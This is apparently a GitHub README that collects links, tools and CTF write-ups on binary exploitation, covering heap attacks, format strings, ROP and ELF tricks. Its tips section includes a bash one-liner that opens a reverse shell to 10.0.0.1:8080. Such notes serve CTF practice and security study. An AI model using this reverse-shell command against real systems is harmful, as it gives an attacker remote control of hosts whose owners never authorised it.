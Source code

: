 # on-pwning
This repository contains interesting links and notes about pwning stuff, along with my solutions to some CTF challenges.

| Tool | Description |
| -------- | ----------- |
| [flags.py](https://gist.github.com/integeruser/90db09df45d18dcffa95f6635403a84b) | Retrieve back names of header file constants
| [wrapper.py](https://gist.github.com/integeruser/dcf2d1a290db1811e8a26cd7b22e919b) | Normalize environment when running a program with and without GDB |
| [ashell.py](https://gist.github.com/integeruser/0c87f46f82d40a36e6a9901059f09ffd) | A shellcoding helper |
| [s-rand.py](https://gist.github.com/integeruser/4cca768836c68751904fe215c94e914c) | Python port of the GLIBC rng |
| [GDB Cheat Sh*t](https://gist.github.com/integeruser/0c436a64e087b1c43b278761434cbbfa) | A summary of the official GDB documentation |

| CTF | Write-up |
| --- | -------- |
| Google CTF 2017 (Quals) | [Inst Prof](https://secgroup.github.io/2017/06/22/googlectf2017quals-writeup-inst-prof/) |
| FAUST CTF 2017 | [Alexa](https://secgroup.github.io/2017/05/29/faustctf2017-writeup-alexa/) |
| AlexCTF 2017 | [Packed Movement](https://secgroup.github.io/2017/02/06/alexctf2017-writeup-packed-movement/) |
| CSAW 2016 | [Tutorial](https://secgroup.github.io/2016/09/24/csaw2016-writeup-tutorial/) |
| Hack.lu 2015 | [Secret Library](https://secgroup.github.io/2015/10/25/hacklu2015-writeup-secret-library/) |


## Readings

- [A binary analysis, count me if you can](http://shell-storm.org/blog/A-binary-analysis-count-me-if-you-can/)
- [A Eulogy for Format Strings](http://phrack.org/issues/67/9.html)
- [A Memory Allocator](http://g.oswego.edu/dl/html/malloc.html)
- [Collection of Known Patching Techniques](https://github.com/secretsquirrel/the-backdoor-factory/wiki/5.-Collection-of-Known-Patching-Techniques) • elf
- [Common Pitfalls When Writing Exploits](http://www.mathyvanhoef.com/2012/11/common-pitfalls-when-writing-exploits.html)
- [Controlling uninitialized memory with LD_PRELOAD](http://vulnfactory.org/blog/2010/04/08/controlling-uninitialized-memory-with-ld_preload/)
- [ELF Binary Code Injection, Loader/'Decrypter'](http://www.pinkstyle.org/elfcrypt.html)
- [Exploiting Format String Vulnerabilities](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)
- [Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)
- [How main() is executed on Linux](http://www.tldp.org/LDP/LG/issue84/hawk.html)
- [How the ELF Ruined Christmas](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-di-frederico.pdf)
- [How to Create a Virus Using the Assembly Language](https://cranklin.wordpress.com/2016/12/26/how-to-create-a-virus-using-the-assembly-language/)
- [linux-insides](https://0xax.gitbooks.io/linux-insides/)
- [Playing with canaries](https://www.elttam.com.au/blog/playing-with-canaries/)
- [Qualys Security Advisory - The Stack Clash](https://www.qualys.com/2017/06/19/stack-clash/stack-clash.txt)
- [Radare2 of the Lost Magic Gadget](https://0xabe.io/howto/exploit/2016/03/30/Radare2-of-the-Lost-Magic-Gadget.html)
- [Return to VDSO using ELF Auxiliary Vectors](http://v0ids3curity.blogspot.it/2014/12/return-to-vdso-using-elf-auxiliary.html)
- [The advanced return-into-lib(c) exploits: PaX case study](http://phrack.org/issues/58/4.html) • ret-into-dl
- [The Art Of ELF: Analysis and Exploitations](http://fluxius.handgrep.se/2011/10/20/the-art-of-elf-analysises-and-exploitations/)
- [The one-gadget in glibc](https://david942j.blogspot.it/2017/02/project-one-gadget-in-glibc.html)
- [Unix ELF parasites and virus](http://vxheaven.org/lib/vsc01.html)
- [Vudo - An object superstitiously believed to embody magical powers](http://www.phrack.org/issues/57/8.html) • dlmalloc, frontlink, heap, unlink
- [What are vdso and vsyscall?](https://stackoverflow.com/questions/19938324/what-are-vdso-and-vsyscall)
- [What is the difference between .got and .got.plt section?](https://stackoverflow.com/questions/11676472/what-is-the-difference-between-got-and-got-plt-section)
- [What is this protection that seems to prevent ROP when ASLR in ON?](https://reverseengineering.stackexchange.com/questions/13811/what-is-this-protection-that-seems-to-prevent-rop-when-aslr-in-on)


## Exploits

- [Dirty COW and why lying is bad even if you are the Linux kernel](https://chao-tic.github.io/blog/2017/05/24/dirty-cow)
- [Educational Heap Exploitation](https://github.com/shellphish/how2heap)
- [Exploit writing tutorial part 11 : Heap Spraying Demystified](https://www.corelan.be/index.php/2011/12/31/exploit-writing-tutorial-part-11-heap-spraying-demystified/#0x0c0c0c0c)
- [Finding Function's Load Address](http://uaf.io/exploitation/misc/2016/04/02/Finding-Functions.html) • DT_STRTAB
- [File Stream Pointer Overflows](http://www.ouah.org/fsp-overflows.txt)
- [Fun with FORTIFY_SOURCE](http://vulnfactory.org/blog/2010/04/27/fun-with-fortify_source/)
- [Mental Snapshot - _int_free and unlink](http://uaf.io/exploitation/misc/2016/09/11/_int_free-Mental-Snapshot.html) • free, heap, unlink
- [Playing with signals : An overview on Sigreturn Oriented Programming](https://thisissecurity.net/2015/01/03/playing-with-signals-an-overview-on-sigreturn-oriented-programming/)
- [Pwning (sometimes) with style - Dragons' notes on CTFs](http://j00ru.vexillium.org/slides/2015/insomnihack.pdf)
- [pwnlib.dynelf — Resolving remote functions using leaks](https://docs.pwntools.com/en/stable/dynelf.html)
- [The Malloc Maleficarum](http://packetstorm.foofus.com/papers/attack/MallocMaleficarum.txt)
- [What is vulnerable about this C code?](http://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code) • env
- [x86 Exploitation 101: heap overflows… unlink me, would you please?](https://gbmaster.wordpress.com/2014/08/11/x86-exploitation-101-heap-overflows-unlink-me-would-you-please/) • dlmalloc, heap, unlink


## Talks

- [Black Hat USA 2002 - Fixing/Making Holes in Binaries](https://www.youtube.com/watch?v=18DKETYfvjg)


## Tools

- [The Backdoor Factory](https://github.com/secretsquirrel/the-backdoor-factory)


## Tips and tricks

- `cat /proc/self/maps` for checking if ASLR is enabled or not
- `setarch x86_64 --addr-no-randomize /bin/bash` starts a fresh environment without ASLR (it will break setuid binaries)
- `set exec-wrapper env "LD_PRELOAD=./libc.so.6"` for loading in GDB a custom libc
- insert `\xcc` (INT 3) at the beginning of a shellcode to stop the program executing it and return to the debugger (for testing purposes)
- `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1` starts a bash reverse shell


## Write-ups

- [0ctf Quals 2017 - BabyHeap2017](http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html) • fastbins
- [33C3 CTF – babyfengshui](https://galhacktictrendsetters.wordpress.com/2017/01/05/33c3-ctf-babyfengshui/)
- [Exploit Exercise - Format String FORTIFY_SOURCE Bypass](http://v0ids3curity.blogspot.it/2012/09/exploit-exercise-format-string.html) • FORTIFY_SOURCE
- [exploit exercises - protostar - heap levels | research | sprawl](http://thesprawl.org/research/exploit-exercises-protostar-heap/#heap-3)
- [Hack.lu's OREO with ret2dl-resolve](http://wapiflapi.github.io/2014/11/17/hacklu-oreo-with-ret2dl-resolve/)
- [Hohoho](https://github.com/InfoSecIITR/write-ups/tree/master/2016/33c3-ctf-2016/misc/hohoho) • bash
- [Nebula level15 write-up](http://www.pwntester.com/blog/2013/11/26/nebula-level15-write-up/) • RPATH
- [Play With Capture The Flag: [Write-up] Google CTF 2017 - pwn474 primary](https://david942j.blogspot.it/2017/06/write-up-google-ctf-2017-pwn474-primary.html)
- [POC exploit for toilet service of FAUST-CTF-2017](https://gist.github.com/m1ghtym0/44a4bdf7621fa60ac8ec69f10b8af5f4)
- [RingZer0Team - Shellcoding](https://github.com/VulnHub/ctf-writeups/blob/master/2015/ringzer0/shellcoding.md)
